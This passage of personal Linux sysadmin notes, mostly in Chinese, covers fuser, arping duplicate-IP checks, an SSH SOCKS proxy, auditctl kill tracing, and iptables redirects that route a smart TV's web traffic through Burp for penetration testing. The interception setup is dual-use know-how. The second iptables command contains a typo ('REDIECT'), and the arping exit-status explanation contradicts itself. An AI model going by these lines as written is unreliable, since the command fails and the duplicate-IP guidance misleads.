  查询使用UDP 2007端口的进程
  fuser -n udp 2007

** 查询文件系统使用者
针对某文件系统的使用者，我们可以使用-m参数进行查询，对于以下分区的系统：
#+begin_example
 # df
 Filesystem           1K-blocks      Used     Available Use%  Mounted on
 /dev/sda2           15735128   10218084   5517044  65%  /
 udev                  4091824        168    4091656   1%  /dev
 /dev/sda3           47550928   43836764   3714164  93%  /home1
 /dev/sdb2           70627600   64344256   6283344  92%  /home2
#+end_example
执行以下查询命令：
#+begin_example
 # fuser -m /home1
 /home1:               2703ce
#+end_example
可以看到/dev/sda3分区的使用者为2703对应的进程，执行fuser –m /dev/sda3、fuser –m /home1/test将得到相同的结果。
** 使用fuser关闭进程
除了可以使用fuser进行查询之外，fuser还可以向进程发送信号，让进程退出：
#+begin_example
# fuser -v -k socket
             USER    PID   ACCESS   COMMAND
socket:      root  11861    ...e.    socket
 
[1]+  Killed                  ./socket
#+end_example
-k选项表示向使用socket文件的相关进程发送SIGKILL信号。除了发送SIGKILL信号之外，fuser还可以发送以下信号：
#+begin_example
 # fuser -l /home
 HUP INT QUIT ILL TRAP ABRT IOT BUS FPE KILL USR1 SEGV USR2 PIPE ALRM TERM
 STKFLT CHLD CONT STOP TSTP TTIN TTOU URG XCPU XFSZ VTALRM PROF WINCH IO PWR SYS
 UNUSED
#+end_example 

另外，加上-i选项，在KILL进程时，需要人为地进行确认：
#+begin_example
 # fuser -v -k -i socket
             USER    PID   ACCESS   COMMAND
 socket:     root   11861  ...e.     socket
 Kill process 11861 ?(y/N)
#+end_example
* perf
 perf top -p pid
 可以看到各个函数cpu占用情况

* stdbuf 命令
  可以关闭buffer
* 检测ip地址冲突
How to: Detect Duplicate IP Address With arping command under Linux

by Nix Craft on November 23, 2007 · 7 comments· LAST UPDATED November 23, 2007

in CentOS, Debian / Ubuntu, Hardware

Q. I run quite large network with different subnets. I'd like to know how can I find out duplicate IP address under Linux / UNIX?

A. You can use arpping command. The arping utility performs an action similar to ping command, but at the Ethernet layer. You can send ARP REQUEST to a neighbor host / computers.
Task: Send ARP request

Let us find out reachability of an IP on the local Ethernet with arping i.e send ARP request 192.168.1.1:
$ sudo arping -I eth0 -c 3 192.168.1.1
Output:

ARPING 192.168.1.1 from 192.168.1.106 ra0
Unicast reply from 192.168.1.1 [00:18:39:6A:C6:8B]  2.232ms
Unicast reply from 192.168.1.1 [00:18:39:6A:C6:8B]  1.952ms
Sent 3 probes (1 broadcast(s))
Received 3 response(s)

Where,

    -I eth0 : Specify network interface i.e. name of network device where to send ARP REQUEST packets. This option is required.
    -c 3 : Stop after sending 3 ARP REQUEST packets

Task: Find duplicate IP

The -D option specifies duplicate address detection mode (DAD). It returns exit status 0, if DAD succeeded i.e. no replies are received.
$ sudo arping -D -I eth0 -c 2 192.168.1.1
If 192.168.1.1 duplicated you should see zero exit status:
$ echo $?
Always use following syntax for duplicate address detection with arping:
$ sudo arping -D -I <interface-name> -c 2 <IP-ADDRESS-TO-TEST>
$ echo $?
* 通过ssh代理上网
  ssh -TfnN -D 7070 root@10.18.207.102

  然后在浏览器中设置SOCKS代理为127.0.0.1 7070
* SSH 端口转发
http://linux-wiki.cn/wiki/zh-hans/SSH%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91%EF%BC%88%E9%9A%A7%E9%81%93%EF%BC%89
* 谁杀死了我的进程 who kill my process
auditctl -a exit,always -F arch=b64 -S kill
进程被杀后，执行如下查看
ausearch -sc kill

完毕后，删除
auditctl -d exit,always -F arch=b64 -S kill
* iptables intercept received packet with proxy and then forward to destination
  使用Burp对智能电视进行渗透测试，方法如下：

  通过iptables 和代理截获packet，
  要使用Burp 做代理，需要设置Burp的Invisible Proxy support配置，

  对于HTTP 80 和 HTTPS 443执行下面命令：
  iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-ports 8080
  iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIECT --to-ports 8443

 数据流如下：
  TV-->eth0-->proxy-->internet
